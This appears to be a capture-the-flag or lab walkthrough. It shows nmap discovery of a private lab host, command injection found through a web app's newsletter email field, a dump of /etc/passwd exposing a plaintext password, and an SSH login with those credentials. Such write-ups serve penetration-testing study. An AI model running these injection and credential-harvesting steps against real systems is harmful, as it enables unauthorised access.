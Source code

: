 ### a) Network Discovery:
`` # nmap -sn 192.168.80.0/24 
![[Pasted image 20250823182929.png]]
--> New Target Discovered: 192.168.80.10/24

### b) Specific Host Information Gathering
`` # nmap -sC -sV 192.168.80.10 ``
![[Pasted image 20250823183034.png]]
We can see port 80 open, let’s visit the website:
![[Pasted image 20250823183106.png]]
--> There we can see signup link we can try signing up the new account if it works or not. 
![[Pasted image 20250823183214.png]]

We signed up with the random user pass and if we login with user & password we were able to login into the dashboard.  
![[Pasted image 20250823183314.png]]
Then we intercepted some of the traffic from the website and one interesting field that we found was newsletter email field.  

#### b.1) Testing to fill any input field
![[Pasted image 20250823184210.png]]
#### b.2) Intercept with Burpsuite & Foxyproxy 
![[Pasted image 20250823184259.png]]

#### b.3) Try to run whoami command & find it in **Response** section
![[Pasted image 20250823184745.png]]--> We found command execution in email field, Let’s try to dump critical files like /etc/passwd

![[Pasted image 20250823184938.png]]

Here's the content of /etc/passwd; If you take a deeper look into it you'll find a golden user with clear password
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:115::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:109:116:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:110:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:111:117:RealtimeKit,,,:/proc:/usr/sbin/nologin
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
cups-pk-helper:x:113:120:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
avahi:x:115:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:117:123::/var/lib/saned:/usr/sbin/nologin
nm-openvpn:x:118:124:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin
hplip:x:119:7:HPLIP system user,,,:/run/hplip:/bin/false
whoopsie:x:120:125::/nonexistent:/bin/false
colord:x:121:126:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
fwupd-refresh:x:122:127:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
geoclue:x:123:128::/var/lib/geoclue:/usr/sbin/nologin
pulse:x:124:129:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gnome-initial-setup:x:125:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:126:131:Gnome Display Manager:/var/lib/gdm3:/bin/false
sssd:x:127:132:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
privilege:x:1001:1001:Admin@962:/home/privilege:/bin/bash
sshd:x:128:65534::/run/sshd:/usr/sbin/nologin
mysql:x:129:135:MySQL Server,,,:/nonexistent:/bin/false
```
--> Bingo: privilege:x:1001:1001:Admin@962:/home/privilege:/bin/bash
--> Creds: 
	Username: privilege 
	Password: Admin@962

Let's SSH into the machine with the discovered credentials: 
`` #ssh privilege@192.168.80.10 ``
Credentials were correct, we got the initial access on the machine.

![[Pasted image 20250823185508.png]]

We didn't even need to perform any privesc technique, the user had it **ALL**. 